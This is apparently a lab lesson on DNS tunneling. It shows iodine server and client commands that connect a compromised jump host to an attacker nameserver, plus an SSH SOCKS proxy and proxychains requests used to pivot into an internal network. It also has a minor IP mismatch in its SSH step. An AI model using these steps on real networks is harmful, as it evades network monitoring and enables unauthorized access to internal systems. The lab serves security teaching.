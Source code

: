 # DNS Tunneling

This task demonstrates how to create a tunnel through the DNS protocol. Ensure you understand the concept discussed in the previous task (Exfiltration over DNS), as DNS tunneling tools work based on the same technique.

## DNS Tunneling (TCP over DNS)

This technique, also known as TCP over DNS, allows an attacker to encapsulate other protocols, such as HTTP requests, over the DNS protocol using the DNS Data Exfiltration technique. DNS tunneling establishes a communication channel where data is sent and received continuously.

### DNS Tunneling - Data Flow

This section explains the steps required to establish a communication channel over DNS. The technique will be applied to the provided network infrastructure (JumpBox and Victim2) to pivot from Network 2 (`192.168.0.0/24`) to Network 1 (`172.20.0.0/24`) and access the internal web server. For more information about the network infrastructure, refer to Task 2.

We will use the `iodine` tool to create DNS tunneling communications. Note that `iodine` is already installed on the JumpBox and Attacker machines. Follow these steps to establish DNS tunneling:

1. Update the DNS records and create new NS points to your AttackBox machine (refer to Task 8), or use the preconfigured nameserver pointing to the Attacker machine (`att.tunnel.com=172.20.0.200`).
2. Run the `iodined` server from the AttackBox or Attacker machine.
3. On JumpBox, run the `iodine` client to establish the connection.
4. SSH to the machine on the created network interface to create a proxy over DNS using the `-D` argument for dynamic port forwarding.
5. Once the SSH connection is established, use the local IP and port as a proxy in Firefox or ProxyChains.

### Running the `iodined` Server

Run the server-side application (`iodined`) as follows:

```bash
thm@attacker$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com
Opened dns0
Setting IP of dns0 to 10.1.1.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain att.tunnel.com
```

#### Explanation of the Command:
- **`sudo`**: Required to create a new network interface (`dns0`) for tunneling over DNS.
- **`-f`**: Runs the server in the foreground.
- **`-c`**: Skips checking the client IP address and port for each DNS request.
- **`-P`**: Sets a password for authentication.
- **`10.1.1.1/24`**: Sets the network IP for the new network interface (`dns0`). The server's IP will be `10.1.1.1`, and the client's IP will be `10.1.1.2`.
- **`att.tunnel.com`**: The nameserver previously configured.

### Victim Connects to the Server

On the JumpBox machine, connect to the server-side application:

```bash
thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for att.tunnel.com to 127.0.0.11
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.1.1.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.1.1.1
Testing raw UDP data to the server (skip with -r)
Server is at 172.20.0.200, trying raw login: OK
Sending raw traffic directly to 172.20.0.200
Connection setup complete, transmitting data.
```

#### Notes:
- The client-side tool (`iodine`) is executed with the `-P` argument for authentication.
- Once the connection is established, open a new terminal and log in to `10.1.1.1` via SSH.

### SSH Over DNS

Use the following command to establish an SSH connection over DNS:

```bash
root@attacker$ ssh thm@10.1.1.2 -4 -f -N -D 1080
```

#### Explanation of the Command:
- **`-D 1080`**: Enables dynamic port forwarding on port 1080.
- **`-f`**: Forces SSH to run in the background.
- **`-4`**: Forces the SSH client to bind to IPv4 only.

### Use SSH Connection as a Proxy

Now that the connection to JumpBox over the `dns0` network is established, use ProxyChains or Firefox with `127.0.0.1` and port `1080` as proxy settings:

```bash
root@attacker$ proxychains curl http://192.168.0.100/demo.php
root@attacker$ # OR
root@attacker$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php
```

### Capturing DNS Traffic

Confirm that all traffic goes through the DNS protocol by checking the `tcpdump` on the Attacker machine through the `eth0` interface.

#### Task:
Apply the DNS tunneling technique in the provided network environment and access `http://192.168.0.100/test.php` to answer the question below.